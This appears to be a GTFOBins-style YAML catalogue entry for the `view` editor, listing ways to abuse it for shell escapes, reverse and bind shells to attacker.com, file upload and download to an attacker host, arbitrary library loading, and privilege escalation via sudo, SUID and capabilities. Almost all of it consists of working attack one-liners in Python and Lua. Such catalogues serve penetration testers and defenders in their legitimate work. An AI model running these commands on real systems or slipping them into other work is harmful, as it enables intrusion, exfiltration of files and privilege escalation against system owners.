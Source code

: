 functions:
  shell:
    - code: view -c ':!/bin/sh'
    - code: |
        view
        :set shell=/bin/sh
        :shell
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `view` is compiled with Lua support.
      code: view -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        view -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        view -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        view -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        view -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        view -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `view` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        view -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        view file_to_write
        iDATA
        ^[
        w!
  file-read:
    - code: view file_to_read
  library-load:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: view -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./view -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo view -c ':!/bin/sh'
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `view` is compiled with Lua support.
      code: sudo view -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `view` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `view` is compiled with Lua support.
      code: ./view -c ':lua os.execute("reset; exec sh")'
---
